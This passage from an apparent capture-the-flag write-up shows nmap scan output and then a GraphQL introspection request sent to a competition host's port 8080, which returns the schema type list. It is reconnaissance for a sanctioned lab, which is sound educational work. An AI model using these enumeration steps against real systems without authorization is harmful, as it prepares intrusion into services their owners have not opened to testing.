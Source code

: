 ```
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|_    Request
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
| http-methods:
|_  Supported Methods: GET POST
8888/tcp open     http         Apache httpd 2.4.58 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

so, 3 non-filtered, non-redirected ports. 80, 8888, and 8080

Lets see what port 8080 and 8888 returns.

port 8888:
```
[blank]
```

port 8080:
```json
{"error":"resource does not exist","path":"$","code":"not-found"}
```

## GraphQL

port 8080 jumps out as being some sort of database. After a bunch of requests and analyzing, you can discover that this is a GraphQL database. [This article from hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql) has some keywords you can use to brute force identification of the type of database.

For port 8080, if we send a request like so, this will identify all of the capabilities and such of the server.
```http
POST /v1/graphql HTTP/1.1
Host: iwc2024.dyn.mctf.io:8080
Accept: text/html
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

{"query":"{  __schema {types {name}}}"}
```

We get back a series of data entries
```json
{"data":{"__schema":{"types":[{"name":"Boolean"},{"name":"Int"},{"name":"Int_comparison_exp"},{"name":"String"},{"name":"String_comparison_exp"},{"name":"__Directive"},{"name":"__EnumValue"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"big_boss_notes"},{"name":"big_boss_notes_bool_exp"},{"name":"big_boss_notes_order_by"},{"name":"big_boss_notes_select_column"},{"name":"big_boss_notes_stream_cursor_input"},{"name":"big_boss_notes_stream_cursor_value_input"},{"name":"cursor_ordering"},{"name":"menu"},{"name":"menu_bool_exp"},{"name":"menu_order_by"},{"name":"menu_select_column"},{"name":"menu_stream_cursor_input"},{"name":"menu_stream_cursor_value_input"},{"name":"money"},{"name":"money_comparison_exp"},{"name":"order_by"},{"name":"query_root"},{"name":"subscription_root"},{"name":"timestamptz"},{"name":"timestamptz_comparison_exp"},{"name":"uuid"},{"name":"uuid_comparison_exp"}]}}}
```
